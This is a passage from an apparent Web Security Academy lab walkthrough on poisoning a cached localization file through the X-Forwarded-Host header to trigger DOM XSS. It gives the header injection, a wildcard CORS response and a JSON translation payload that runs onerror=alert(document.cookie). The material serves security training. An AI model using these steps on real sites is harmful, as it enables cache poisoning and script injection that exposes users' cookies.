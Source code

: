 Open `/?localized=1` in Repeater and set the `X-Forwarded-Host` header to point to Exploit Server:

```http
-
X-Forwarded-Host: exploit-my.exploit-server.net
```

Again, similar to previous lab we get the following error in the console:
```
Access to fetch at 'https://exploit-my.exploit-server.net/resources/json/geolocate.json' from origin 'https://my.web-security-academy.net' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

##### Relaxation of CORS specifications with wildcards

In Exploit Server set ACAO to `*` in Head section:

```http
HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *
```

Cached page now loads and we get altered translation for selected language.

##### DOM XSS

Investigate the code on Home Page:

```html
<a class="button" href="/product?productId=1">Do me the honour of elaborating</a>
```

Investigate the code on Product Page:
```html
<section class="product">
...
	<label>Pontifications on the subject matter:</label>
...
	<div class="is-linkback">
		<a href="/">From whence you came</a>
	</div>
</section>
```

Remember `A user visits the home page roughly once a minute and their language is set to English.` We will focus on `"View details"` field.

Update Server Exploit

Body:

```json
{
    "en": {
        "name": "English"
    },
    ...
    "en-gb": {
        "name": "Proper English",
        "translations": {
            "Return to list": "Back to the warp",
            "View details": "</a><img src=1 onerror=alert(document.cookie) />Auger Array<a>",
            "Description:": "Omnissiah Protects!"
        }
    },
    ...
}
```
